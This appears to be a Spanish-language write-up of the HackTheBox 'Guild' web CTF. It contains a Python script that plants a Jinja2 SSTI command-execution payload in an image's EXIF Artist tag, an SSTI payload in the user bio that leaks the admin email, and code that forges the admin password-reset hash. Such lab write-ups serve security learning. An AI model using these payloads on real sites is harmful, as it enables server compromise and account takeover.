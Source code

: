 ```yaml
---
title: Guild Web CTF - HackTheBox
date: 2025-02-14 11:00:00 +0000
categories: [HacktheBox, CTF, Web]
tags: [HacktheBox, CTF, Web]
image:
  path: /assets/img/cabeceras_genericas/htb.png
  alt: Guild Web CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox Guild Web.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Creación del usuario

![alt text](/assets/img/posts/guild-ctf-htb/image.png)

Creamos un usuario cualquiera de forma sencilla.

Una vez creado podemos iniciar sesión.

![alt text](/assets/img/posts/guild-ctf-htb/image-1.png)

# Creación del payload

Para poder obtener la flag vamos a necesitar crear una imagen .jpg con un tag "artist" 

Script para crear la imagen:

```python
from PIL import Image
import piexif

def create_exif_exploit():
    # Crear una imagen nueva
    img = Image.new('RGB', (50, 50), color='white')
    
    # Crear datos EXIF - El tag Artist está en el IFD principal (0th)
    zeroth_ifd = {
        piexif.ImageIFD.Artist: "{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}".encode('utf-8')
    }
    
    # Generar el diccionario EXIF completo
    exif_dict = {"0th": zeroth_ifd, "Exif": {}, "1st": {}, "thumbnail": None, "GPS": {}}
    
    # Convertir el diccionario a bytes
    exif_bytes = piexif.dump(exif_dict)
    
    # Guardar la imagen con los datos EXIF
    img.save('exploit.jpg', 'JPEG', exif=exif_bytes)
    print("Imagen creada con éxito: exploit.jpg")

if __name__ == "__main__":
    create_exif_exploit()

```

Con este script crearemos la imagen con el tag "artist" y podremos obtener la flag que se encuentra en la raiz de la web.

![alt text](/assets/img/posts/guild-ctf-htb/image-2.png)

Una vez subida la imagen para poder ejecutar el payload hay que conseguir acceso a la cuenta de administrador.

# Acceso a la cuenta de administrador

Como sabemos por el código de la web, la cuenta de administrador se genera automáticamente al crear el docker además de que la cuenta de mail generada así como la contraseña son 8 carácteres en hexadcimal generados aleatoriamente.

Esto imposibilita la idea de realizar un ataque de fuerza bruta.

Teniendo esto en cuenta y analizando el comportamiento de la web podemos realizar una inyección SSTI en la bio del usuario que tenemos registrado para poder obtener la el mail de la cuenta de administrador.

## Análisis de código

Si bien en el template de la bio la inyección no se puede llevar a cabo, en la generación de página para compartir el perfil de usuario la situación es diferente.

```python
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

Si observamos las variables que se le pasan al render_template_string, vemos que se pasa el modelo User completo. En Flask/SQLAlchemy podemos usar esto para hacer queries. Por lo tanto podríamos intentar pasar una query consultando el correo de la cuenta de administrador.

`{{User.query.filter_by(username='admin').first().email}}`

## Exploit

![alt text](/assets/img/posts/guild-ctf-htb/image-3.png)

Hacemos click donde dice "share profile" y copiamos el link.

![alt text](/assets/img/posts/guild-ctf-htb/image-4.png)

![alt text](/assets/img/posts/guild-ctf-htb/image-5.png)

`4758505255527057@master.guild`

Ahora que tenemos el mail vamos a explotar el forget password.

# Explotando el forget password

Ahora que sabemos el mail de administrador podemos forzar el cambio de contraseña explotando una vulnerabilidad que hemos econtrado en el código.

Necesitamos primero indicar que hemos olvidado la contraseña de la cuenta de administrador con su mail.

Volvemos al login y hacemos click en "Forgot password?", introducimos el mail de administrador y pulsamos el botón "Send".

![alt text](/assets/img/posts/guild-ctf-htb/image-6.png)

Ahora como podemos ver en el código fuente, se genera un hash sha256 con el mail de la cuenta de administrador y esto se pasa a la función changepasswd.

1. Funcion para cambiar generando el hash:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        if query:
            # El hash es simplemente el SHA256 del email
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
```

2. Función para cambiar la contraseña:

```python
@views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
def changepasswd(Hash):
    query = Validlinks.query.filter_by(validlink=Hash).first()
```

Sabiendo esto y que ya hemos generado en la base de datos la petición de cambio de contraseña podemos hacer el siguiente ataque.

Creamos exactamente la misma función que genera el hash del codigo.

```python
import hashlib

# Reemplaza esto con el email que obtuviste
admin_email = "4758505255527057@master.guild"

# Calcular el hash
reset_url = hashlib.sha256(admin_email.encode()).hexdigest()
print(reset_url)
```

Copiamos el hash y lo pasamos a la función changepasswd.

```bash
❯ python3 hashmail.py
336337986c1d078c19ef0aecef621d163fc5acc8feebde5efb2ffd79704f542e
```	
![alt text](/assets/img/posts/guild-ctf-htb/image-7.png)

Con esto conseguimos cambair la contraseña del usuario administrador.

# Obtención de la flag

Ahora que acceso al panel de verificación de imágenes, podemos obtener la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-8.png)

Si hacemos click en verify ejecutaremos el SSTI y obtendremos la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-9.png)

